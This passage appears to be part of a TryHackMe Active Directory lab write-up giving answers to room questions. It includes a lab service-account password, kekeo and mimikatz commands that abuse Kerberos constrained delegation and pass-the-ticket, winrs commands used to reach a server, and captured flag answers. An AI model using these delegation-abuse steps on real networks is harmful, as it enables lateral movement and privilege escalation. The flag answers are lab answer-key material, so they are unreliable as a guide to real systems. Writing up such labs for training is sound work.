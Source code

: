 Answer 1:
> svcIIS:Password1@

Answer 2:
>> New Terminal - Windows

```powershell
C:\Tools\kekeo\x64\kekeo.exe
```

```plain
# kekeo
# -----

tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:Password1@

tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc

tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:wsman/THMSERVER1.za.tryhackme.loc
```

```plain
# mimikatz
# --------

kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

misc::cmd
```

```CMD
klist
winrs -r:thmserver1.za.tryhackme.loc cmd
cd C:\Users\Administrator\Desktop
type .\flag2.txt
```

Answer 1:
> Unconstrained Delegation

Answer 2:
> Resource-Based Constrained Delegation

Answer 3:
> CIFS

Answer 4:
> THM{Constrained.Delegation.Can.Be.Very.Bad}

## Task 4

